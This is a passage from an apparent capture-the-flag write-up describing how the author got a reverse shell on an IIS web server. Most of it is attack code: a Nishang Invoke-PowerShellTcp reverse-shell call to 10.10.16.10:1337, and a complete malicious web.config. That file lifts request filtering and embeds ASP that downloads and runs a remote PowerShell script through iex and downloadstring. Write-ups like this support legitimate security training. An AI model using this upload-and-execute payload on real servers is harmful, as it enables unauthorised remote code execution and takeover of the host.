 - For a proper reverse shell, I used [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) with an added command at the end:

powershell

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 1337
```

- Modified web.config to download and execute the PowerShell script:

aspx

```aspx
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.16.10/Invoke-PowerShellTcp.ps1')")
o = cmd.StdOut.ReadAll()
Response.Write(o)
%>
-->
```

- After uploading the file and accessing it, I successfully received a shell connection!
